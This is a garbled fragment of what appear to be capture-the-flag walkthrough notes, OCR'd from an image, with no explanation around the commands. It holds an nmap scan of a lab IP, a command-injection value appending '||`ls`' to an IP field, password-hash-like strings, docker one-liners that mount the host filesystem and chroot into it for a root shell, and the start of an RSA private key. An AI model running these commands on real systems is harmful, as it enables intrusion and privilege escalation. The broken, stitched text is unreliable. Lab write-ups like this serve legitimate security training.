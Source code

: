 nmap -p 21,22,8081,31331 -A 10.10.31.167
10.10.31.167||`ls`

00tf357a0c52799563c7c7b76c1e7543a32)
f357a0c52799563c7c7b76c1e7543a32
n100906

0d0ea5111e3c1def594c1684e3b9be84

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

docker run -v /:/mnt --rm -it bash chroot /mnt bash

MIIEogIBAAKCAQEAuDSna2F

